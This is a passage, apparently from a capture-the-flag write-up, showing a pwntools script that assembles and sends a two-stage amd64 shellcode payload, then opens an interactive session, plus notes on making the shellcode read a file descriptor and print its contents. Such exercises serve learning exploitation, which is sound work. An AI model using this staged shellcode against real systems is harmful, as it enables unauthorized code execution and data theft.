 ```
#     inc rsi
#     jmp Loop
# Fin:
#     add rsi, 8
#     jmp rsi
# """
# bfc03190
smallShellCode = asm(smallAsm, extract=True, arch="amd64", os="linux")
smallShellCodeLen = len(smallShellCode)


print("____________________________________")

print(f"small Shellcode: {smallShellCode.hex()}")
# print(f"small Shellcode: {smallShellCode}")
print(f"small Shellcode length: {smallShellCodeLen}")
print(f"disassm: {disasm(smallShellCode)}")

print("____________________________________")
print(f"Sending small shellcode")
io.sendline(smallShellCode)

print("____________________________________")
print(f"Sending big shellcode")
print(f"Big payload len: {len(BigPayload)}")
print(f"Big payload: {(BigPayload.hex())}")


print(BigPayload)
io.sendline(BigPayload)


io.interactive()
```

SIMPLE
===========================

Open file descriptor = 1000
Read contents from fd
write into the buffer
make the shellcode do this:

read(fd, buff, size)
write(1, buf, nread)
exit(0)

===========================

General overview of problems faced
-------------------------------------

* Shell code needed to be debugged
